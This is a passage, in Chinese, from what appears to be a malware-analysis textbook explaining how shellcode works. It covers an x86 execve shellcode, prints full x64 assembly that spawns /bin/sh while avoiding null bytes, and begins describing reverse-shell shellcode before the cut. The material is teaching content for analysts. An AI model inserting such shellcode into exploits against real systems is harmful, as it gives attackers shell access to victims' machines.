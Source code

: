 让我们仔细看看这段代码：

1.  首先，它执行 `execve` 系统调用来启动一个进程，在这个例子中是 `/bin/sh`，即 shell。

1.  `execve` 系统调用的原型如下所示：

    ```
    int execve(const char *filename, char *const argv[], char
    *const envp[]);
    ```

1.  它通过使用 call/pop 技术获取绝对地址，将文件名 `/bin/sh` 设置到 `ebx` 中。

1.  在这种情况下不需要指定额外的命令行参数，所以 `ecx` 被设置为零（`xor`，`ecx`，`ecx` 以避免空字节）。

1.  在 shell 终止后，shellcode 执行 `exit` 系统调用，其定义如下：

    ```
    void _exit(int status);
    ```

1.  它将状态设置为零，在程序正常退出时将 `ebx` 设为零。

在这个例子中，你已经看到 shellcode 如何通过启动 `/bin/sh` 来为攻击者提供一个 shell。对于 x64 版本，有一些不同之处：

+   `int 0x80` 被一个特殊的 Intel 指令 `syscall` 替代。

+   `execve` 系统调用的 ID 已更改为 0x3b (59)，而 `exit` 的 ID 更改为 0x3c (60)。要知道每个 ID 代表什么功能，请查看官方的 Linux 系统调用表。

+   它使用 `rdi` 作为第一个参数，`rsi` 作为下一个参数，接着是 `rdx`、`rcx`、`r8`、`r9`，其余的在栈中。

代码将如下所示：

```
xor rdx, rdx
push rdx    ; null bytes after the /bin/sh
mov rax, 0x68732f2f6e69622f ; /bin/sh
push rax
mov rdi, rsp
push rdx    ; null arguments for /bin/sh
push rdi
mov rsi, rsp
xor rax, rax
mov al, 0x3b  ; execve system call
syscall
xor rdi, rdi
mov rax, 0x3c ; exit system call
syscall
```

如你所见，在 shellcode 方面，x86 和 x64 之间并没有太大区别。现在，让我们看看更高级的 shellcode 类型。

### 反向 shell shellcode

反向 shell shellcode 是最广泛使用的 shellcode 类型之一。这个 shellcode 会连接到攻击者，并在远程系统上为攻击者提供一个 shell，以便完全访问远程机器。为实现这一目标，shellcode 需要按照以下步骤执行：

1.  `socket`。这是该函数的定义：
